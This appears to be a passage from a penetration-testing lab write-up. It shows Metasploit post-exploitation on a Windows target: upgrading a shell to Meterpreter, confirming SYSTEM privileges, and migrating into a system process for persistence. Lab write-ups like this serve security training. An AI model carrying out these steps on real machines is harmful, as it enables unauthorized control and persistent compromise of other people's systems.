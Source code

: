 ###### Upgrading to a Meterpreter shell
For better interaction, we can try upgrading our current shell into a Meterpreter shell. We first need to background the current shell (CTRL+Z), then:
```
use post/multi/manage/shell_to_meterpreter
sessions -l
set SESSION <id>
run
```

<img src="images/metasploit3.png" width="500">

`sessions -l` is going to list all current sessions. Find the session connected to the target machine and get its session id.
###### Escalation / Persistence
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We can try migrating to a stable system process for better persistence:
```
meterpreter > ps

Process List
============

	 PID   PPID  Name             Arch  Session  User                        Path
 ---   ----  ----             ----  -------  ----                        ----
 0     0     [System Process
             ]
 4     0     System           x64   0
 396   652   LogonUI.exe      x64   1        NT AUTHORITY\SYSTEM         C:\Windows\system32\LogonU
                                                                         I.exe
 416   4     smss.exe         x64   0        NT AUTHORITY\SYSTEM         \SystemRoot\System32\smss.
                                                                         exe
 428   700   svchost.exe      x64   0        NT AUTHORITY\SYSTEM
 556   548   csrss.exe        x64   0        NT AUTHORITY\SYSTEM         C:\Windows\system32\csrss.
                                                                         exe
 604   548   wininit.exe      x64   0        NT AUTHORITY\SYSTEM         C:\Windows\system32\winini
                                                                         t.exe
 612   596   csrss.exe        x64   1        NT AUTHORITY\SYSTEM         C:\Windows\system32\csrss.
                                                                         exe
 652   596   winlogon.exe     x64   1        NT AUTHORITY\SYSTEM         C:\Windows\system32\winlog
                                                                         on.exe
...

meterpreter > migrate 708
[*] Migrating from 2068 to 708...
[*] Migration completed successfully.
```
